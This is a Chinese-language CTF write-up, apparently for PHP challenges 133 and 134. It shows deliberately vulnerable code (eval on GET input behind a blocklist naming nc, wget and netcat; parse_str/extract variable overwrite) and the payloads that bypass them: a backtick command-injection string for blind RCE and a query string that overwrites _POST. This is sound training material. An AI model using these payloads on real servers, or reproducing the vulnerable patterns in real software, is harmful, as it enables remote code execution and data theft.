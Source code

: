 ## 133 

```PHP
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}

```

```
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```

链接奉上:

https://blog.csdn.net/qq_46091464/article/details/109095382

## 134

```php

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

- parse_str() 函数把查询字符串解析到变量中。
- extract() 函数从数组中将变量导入到当前的符号表。

```php
?_POST[key1]=36d&_POST[key2]=36d
```

## 135 

